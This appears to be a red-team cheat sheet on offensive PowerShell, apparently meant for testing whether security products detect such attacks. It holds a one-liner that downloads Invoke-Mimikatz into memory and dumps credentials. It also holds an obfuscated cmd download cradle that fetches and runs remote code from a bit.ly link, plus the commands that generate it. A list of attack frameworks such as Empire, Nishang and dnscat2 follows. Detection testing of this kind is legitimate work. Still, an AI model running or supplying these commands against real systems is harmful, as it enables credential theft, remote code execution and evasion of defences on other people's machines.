 

# Powershell

Every product today reports they can prevent fileless, living off the land, nation state :all_the_things: . I say - prove it.

http://www.labofapenetrationtester.com/2015/04/pillage-the-village-powershell-version.html

https://www.blackhillsinfosec.com/?p=5831

## One Liners

### Download Mimikatz and Dump credentials

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

### Obfuscated Powershell

Fancy obfuscation that reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

## Powershell Obfuscation

Provided by @danielbohannon

[Out-FINcodedCommand](https://github.com/danielbohannon/Out-FINcodedCommand/blob/master/README.md)


Setup:

    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/danielbohannon/Out-FINcodedCommand/master/Out-FINcodedCommand.ps1')

Input:

    Out-FINcodedCommand -command "iex (iwr http://bit.ly/L3g1t).content" -FinalBinary powershell

Follow prompts to create variables.

Output:

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"



[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

Input:

    code here

Output:

    code here

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Input:

    code here

Output:

    code here

## Powershell Kits

### Empire

http://www.powershellempire.com/

### Bloodhound

https://github.com/BloodHoundAD/BloodHound

### GoFetch

https://github.com/GoFetchAD/GoFetch

### Deathstar

https://github.com/byt3bl33d3r/DeathStar

https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html

### PowerSploit

https://github.com/PowerShellMafia/PowerSploit

### Nishang

https://github.com/samratashok/nishang

### PSAttack

https://github.com/jaredhaight/PSAttack

### Dr0p1t-Framework

https://github.com/D4Vinci/Dr0p1t-Framework

### PowerOPS

https://github.com/fdiskyou/PowerOPS

csc.exe /unsafe /reference:"C:\path\to\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\users\ieuser\desktop\PowerOPS_x64.exe /platform:x64 "C:\C:\Users\IEUser\Downloads\PowerOPS-1.0-beta\PowerOps\*.cs"

# Other

### DNScat2-powershell

https://github.com/lukebaggett/dnscat2-powershell
